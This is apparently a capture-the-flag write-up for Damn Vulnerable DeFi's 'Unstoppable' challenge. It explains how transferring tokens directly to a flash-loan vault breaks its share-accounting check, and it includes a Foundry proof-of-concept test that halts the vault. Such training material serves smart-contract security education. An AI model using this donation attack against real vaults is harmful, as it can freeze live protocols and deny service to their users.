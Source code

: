 # Challenge - Unstoppable

There’s a tokenized vault with a million DVT tokens deposited. It’s offering flash loans for free, until the grace period ends.

To catch any bugs before going 100% permissionless, the developers decided to run a live beta in testnet. There’s a monitoring contract to check liveness of the flashloan feature.

## Objective of CTF

Starting with 10 DVT tokens in balance, show that it’s possible to halt the vault. It must stop offering flash loans.

## Analysis

To stop the UnstoppableVault from providing flash loans normally, we need to examine whether any of the conditions in the flashLoan function can be made to fail, triggering a revert. The function can revert under the following four conditions:

-   The provided amount is 0.
-   The provided token does not equal the asset variable.
-   convertToShares(totalSupply) does not equal totalAssets().
-   The callback to the receiver's onFlashLoan function does not correctly return keccak256("IERC3156FlashBorrower.onFlashLoan").

Upon closer inspection, conditions 1, 2, and 4 are all determined by the caller's inputs and will trigger a revert based on those inputs. However, condition 3 is tied to the totalAssets() function, which returns the balance of the asset token in the UnstoppableVault. We can manipulate this condition by directly transferring the asset token into the UnstoppableVault contract, causing the calculated shares to mismatch with the actual balance. This discrepancy will result in an InvalidBalance error whenever anyone attempts to call the flashLoan function.

### Attack steps:

1. transfer the token to the vault directly.

## PoC test case

```solidity
// SPDX-License-Identifier: MIT
// Damn Vulnerable DeFi v4 (https://damnvulnerabledefi.xyz)
pragma solidity =0.8.25;

import {Test, console} from "forge-std/Test.sol";
import {DamnValuableToken} from "../../src/DamnValuableToken.sol";
import {UnstoppableVault, Owned} from "../../src/unstoppable/UnstoppableVault.sol";
import {UnstoppableMonitor} from "../../src/unstoppable/UnstoppableMonitor.sol";

contract UnstoppableChallenge is Test {
    address deployer = makeAddr("deployer");
    address player = makeAddr("player");
    address monitor = makeAddr("monitor");

    uint256 constant TOKENS_IN_VAULT = 1_000_000e18;
    uint256 constant INITIAL_PLAYER_TOKEN_BALANCE = 10e18;

    DamnValuableToken public token;
    UnstoppableVault public vault;
    UnstoppableMonitor public monitorContract;

    modifier checkSolvedByPlayer() {
        vm.startPrank(player, player);
        _;
        vm.stopPrank();
        _isSolved();
    }

    /**
     * SETS UP CHALLENGE - DO NOT TOUCH
     */
    function setUp() public {
        startHoax(deployer);
        // Deploy token and vault
        token = new DamnValuableToken();
        vault = new UnstoppableVault({_token: token, _owner: deployer, _feeRecipient: deployer});

        // Deposit tokens to vault
        token.approve(address(vault), TOKENS_IN_VAULT);
        vault.deposit(TOKENS_IN_VAULT, address(deployer));

        // Fund player's account with initial token balance
        token.transfer(player, INITIAL_PLAYER_TOKEN_BALANCE);

        // Deploy monitor contract and grant it vault's ownership
        monitorContract = new UnstoppableMonitor(address(vault));
        vault.transferOwnership(address(monitorContract));

        // Monitor checks it's possible to take a flash loan
        vm.expectEmit();
        emit UnstoppableMonitor.FlashLoanStatus(true);
        monitorContract.checkFlashLoan(100e18);

        vm.stopPrank();
    }

    /**
     * VALIDATES INITIAL CONDITIONS - DO NOT TOUCH
     */
    function test_assertInitialState() public {
        // Check initial token balances
        assertEq(token.balanceOf(address(vault)), TOKENS_IN_VAULT);
        assertEq(token.balanceOf(player), INITIAL_PLAYER_TOKEN_BALANCE);

        // Monitor is owned
        assertEq(monitorContract.owner(), deployer);

        // Check vault properties
        assertEq(address(vault.asset()), address(token));
        assertEq(vault.totalAssets(), TOKENS_IN_VAULT);
        assertEq(vault.totalSupply(), TOKENS_IN_VAULT);
        assertEq(vault.maxFlashLoan(address(token)), TOKENS_IN_VAULT);
        assertEq(vault.flashFee(address(token), TOKENS_IN_VAULT - 1), 0);
        assertEq(vault.flashFee(address(token), TOKENS_IN_VAULT), 50000e18);

        // Vault is owned by monitor contract
        assertEq(vault.owner(), address(monitorContract));

        // Vault is not paused
        assertFalse(vault.paused());

        // Cannot pause the vault
        vm.expectRevert("UNAUTHORIZED");
        vault.setPause(true);

        // Cannot call monitor contract
        vm.expectRevert("UNAUTHORIZED");
        monitorContract.checkFlashLoan(100e18);
    }

    /**
     * CODE YOUR SOLUTION HERE
     */
    function test_unstoppable() public checkSolvedByPlayer {
        // transfer token to the vault directly
        token.transfer(address(vault), INITIAL_PLAYER_TOKEN_BALANCE);
    }

    /**
     * CHECKS SUCCESS CONDITIONS - DO NOT TOUCH
     */
    function _isSolved() private {
        // Flashloan check must fail
        vm.prank(deployer);
        vm.expectEmit();
        emit UnstoppableMonitor.FlashLoanStatus(false);
        monitorContract.checkFlashLoan(100e18);

        // And now the monitor paused the vault and transferred ownership to deployer
        assertTrue(vault.paused(), "Vault is not paused");
        assertEq(vault.owner(), deployer, "Vault did not change owner");
    }
}
```
